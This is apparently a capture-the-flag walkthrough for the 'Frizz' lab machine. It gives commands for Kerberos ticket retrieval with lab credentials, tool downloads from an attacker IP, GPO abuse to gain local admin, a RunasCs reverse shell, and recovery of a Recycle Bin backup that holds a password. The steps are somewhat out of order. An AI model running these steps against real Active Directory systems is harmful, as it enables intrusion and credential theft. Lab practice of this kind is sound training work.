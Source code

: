 Used impacket-getTGT to retrieve a ticket-granting ticket (TGT) for the user
M.SchoolBus .
impacket-getTGT frizz.htb/M.schoolbus:'!suBcig@MehTed!R' -dc-ip frizzdc.fri
zz.htb

export KRB5CCNAME=M.schoolbus.ccache


mpacket-getTGT frizz.htb/f.frizzle:Jenni_Luvs_Magic23 -dc-ip frizzdc.frizz.htb  
export KRB5CCNAME=f.frizzle.ccache  
  
use ssh to login in:  
ssh f.frizzle@frizz.htb -K  
(repeat this to make it happen if the connection get refused.)  
  
Get the user flag in PS C:\Users\f.frizzle\Desktop> type user.txt  
159ec376de1009f9f3fb1eda8xxxxxxx

Privilege Escalation.  
mk a temporary directory "mkdir C:\tmp"  
start a simplehttpserver and upload the tool.  
  
Uploading tool:  
Invoke-WebRequest -Uri "http://10.10.14.XX/SharpGPOAbuse.exe" -OutFile "C:\tmp\SharpGPOAbuse.exe"  
Abusing GPO for Admin:  
  
New-GPO -Name "pwnedGPO"  
New-GPLink -Name "pwnedGPO" -Target "OU=Domain Controllers,DC=frizz,DC=htb"  


New-GPLink -Name "evil" -Target "OU=Domain Controllers,DC=frizz,DC=htb"


.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName pwnedGPO  
Forcing update:  
 gpupdate /force  
  
Using RunasCs to get Admin shell:  
Invoke-WebRequest -Uri "http://10.10.14.XX/RunasCs.exe" -OutFile  
"C:\tmp\RunasCs.exe"  
./RunasCs.exe 'M.schoolbus' '<password>' powershell.exe -r <nc_IP>:<nc_Port>  
  
start a reverse shell on your machine {repeat until u get a shell}.  
  
Capturing Flags  
User Flag  
type C:\Users\f.frizzle\Desktop\user.txt  
Output:  
159ec376de1009f9f3fb1eda8xxxxxxx  
Root Flag  
type C:\Users\Administrator\Desktop\root.txt  
Output:  
eb512c2a692be19c950cc5234xxxxxxx



  
Gaining Root Access.  
Extracting Data from Recycle Bin  
$shell = New-Object -ComObject Shell.Application  
$recycleBin = $shell.Namespace(0xA)  
$recycleBin.items() | Select-Object Name, Path  
Found a backup file:  
wapt-backup-sunday.7z -> C:\$RECYCLE.BIN\S-1-5-21-XXXXX\backup.7z  
  
restore the file  
$recycleBin = (New-Object -ComObject Shell.Application).NameSpace(0xA)  
$items = $recycleBin.Items()  
$item = $items | Where-Object {$_.Name -eq "wapt-backup-sunday.7z"}  
$documentsPath = [Environment]::GetFolderPath("MyDocuments")  
$documents = (New-Object -ComObject Shell.Application).NameSpace($documentsPath)  
$documents.MoveHere($item)  
  
Extracting credentials from waptserver.ini file:  
M.schoolbus -> Password: !suBcig@MehTed!R  
Final Access for Root Privileges  
export KRB5CCNAME=M.schoolbus.ccache  
  
ssh M.schoolbus@frizz.htb -K